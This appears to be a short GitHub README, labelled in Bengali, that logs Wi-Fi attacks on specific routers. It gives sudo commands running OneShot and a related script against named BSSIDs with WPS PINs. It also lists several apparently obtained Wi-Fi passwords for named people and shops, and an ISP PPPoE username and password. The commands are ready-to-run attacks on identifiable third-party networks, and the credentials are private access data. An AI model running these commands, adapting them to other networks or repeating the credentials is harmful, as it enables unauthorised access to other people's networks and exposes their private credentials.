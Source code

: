 # wifi-all-pin 

## একটু স্লো দোকানের:-  

``` sudo python rejaul2712/rejaul.py -i wlan0 -b 84:D8:1B:AA:9D:A8 -B -p 06273385 ```

## saim solobd বাগিনা:-
 
```sudo python rejaul2712/rejaul.py -i wlan0 -b CC:2D:21:62:13:58 -B -p 55157698 ```
sudo python OneShot/oneshot.py -i wlan0 -b 48:22:54:14:A0:C9 -p 49937305


``` rayhan password:- Anas2520


#saim:-Router PPoe

```username:- 100886@naim.sol-bd.com ```

``` passwod:- 1122 ``` sudo python OneShot/oneshot.py -i wlan0 -b 48:22:54:14:A0:C9 -p 49937305

jakir wifi:- 85239999
